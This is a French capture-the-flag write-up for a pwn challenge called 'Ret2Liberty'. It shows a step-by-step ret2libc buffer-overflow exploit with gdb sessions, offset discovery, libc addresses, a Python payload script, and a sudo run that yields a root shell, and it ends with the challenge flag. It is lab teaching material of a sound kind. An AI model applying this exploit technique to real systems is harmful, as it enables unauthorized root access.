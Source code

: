 # **Ret2Liberty**.
## <u>**Catégorie**</u>

Pwn

## <u>**Description**</u> :

```
Trouver un moyen d'exploiter un buffer overflow pour obtenir un shell root
 
```

## <u>Hints</u> 

La librairie C peut aider à faire popper un shell (ret2libc)

## <u>Auteur</u> 

Processus Thief

## <u>Solution</u> :

-- On lance notre binaire avec un débuggueur (gdb)
gdb welcome
-- On peut trouver l'offset de EIP 
❯ msf-pattern_create -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
❯ msf-pattern_offset -q 0Ac1
[*] Exact match at offset 62
-- on trouve l'offset de l'instruction system et /bin/sh
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e18370 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f62363 ("/bin/sh")
-- on créer un shellcode avec le padding jusqu'à EIP, puis le system, un peu de padding et notre /bin/sh
import os
-- padding found with msf_pattern_offset
buf = "A"*62
-- overwrite EIP with string RETN
-- system : 0xf7e18370
-- bin/sh : 0xf7f62363
buf += str("\x70\x83\xe1\xf7" + "OSEF" + "\x63\x23\xf6\xf7")
print str(buf)
-- on exécute notre shellcode avec le préfixe "sudo" et on obtient un shell root
user1@ret2liberty:~$ sudo /home/user1/welcome $(python2 exploit.py)
Bienvenue AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp�������c#�� !
-- id
uid=0(root) gid=0(root) groups=0(root)



##**Flag : MCTF{R3t2l1bC_1s_t0o_34sY_f0r_m3}**